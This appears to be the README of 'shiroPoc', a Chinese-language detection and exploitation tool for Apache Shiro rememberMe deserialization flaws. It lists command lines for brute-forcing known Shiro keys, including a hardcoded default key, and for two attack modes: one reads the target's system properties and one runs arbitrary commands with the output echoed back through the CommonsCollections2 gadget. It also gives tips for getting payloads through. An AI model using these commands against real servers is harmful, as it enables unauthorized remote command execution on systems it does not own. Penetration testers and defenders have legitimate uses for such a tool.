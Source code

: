 mvn package 编译

## changelog
1. 新增shiro 检测方式(对，就是那个不需要gadget的检测方式) 2020.7.30
2. 新增shiro 100 key
3. 支持自定义key

自定义key检测
```
java -cp .\shiroPoc-1.0-SNAPSHOT-jar-with-dependencies.jar org.unicodesec.poc http://localhost:8080/samples_web_war/ kPH+bIxk5D2deZiIxcaaaA==
```

内置100key检测

```
java -cp .\shiroPoc-1.0-SNAPSHOT-jar-with-dependencies.jar org.unicodesec.poc http://localhost:8080/sam
ples_web_war/
```

```
java -jar .\shiroPoc-1.0-SNAPSHOT-jar-with-dependencies.jar kPH+bIxk5D2deZiIxcaaaA== CommonsCollections2 XraySysProp
```

## 检测方式
运行
```
java -cp .\shiroPoc-1.0-SNAPSHOT-jar-with-dependencies.jar org.unicodesec.poc 
```
![](https://potatso-1253210846.cos.ap-beijing.myqcloud.com//img20200730200713.png)


检测

```
java -cp .\shiroPoc-1.0-SNAPSHOT-jar-with-dependencies.jar org.unicodesec.poc http://localhost:8080/sam
ples_web_war/
```
![](https://potatso-1253210846.cos.ap-beijing.myqcloud.com//img20200730200536.png)


## shiro-urldns 检测&利用工具
支持shiro 16个key，支持攻击利用。支持的key与gadget以及攻击类型如下
![](https://potatso-1253210846.cos.ap-beijing.myqcloud.com//img20200726115923.png)


## 查看目标服务器的系统信息
该攻击类型为`XraySysProp`，使用方法如下
```
java -jar .\shiroPoc-1.0-SNAPSHOT-jar-with-dependencies.jar 16 CommonsCollections2 XraySysProp
```

![](https://potatso-1253210846.cos.ap-beijing.myqcloud.com//img20200726121111.png)

利用截图如下

![](https://potatso-1253210846.cos.ap-beijing.myqcloud.com//img20200726121840.png)

## 执行命令并回显
该攻击类型为`XrayCmd` 使用方法如下
```
java -jar .\shiroPoc-1.0-SNAPSHOT-jar-with-dependencies.jar 16 CommonsCollections2 XrayCmd
```
利用截图如下
![](https://potatso-1253210846.cos.ap-beijing.myqcloud.com//img20200726122210.png)

## 注意事项
1. 建议删除不相关的http请求头，不然会因为http请求头过大而提示400错误
2.  建议使用CommonsCollections2 gadget，体积小，利用率高
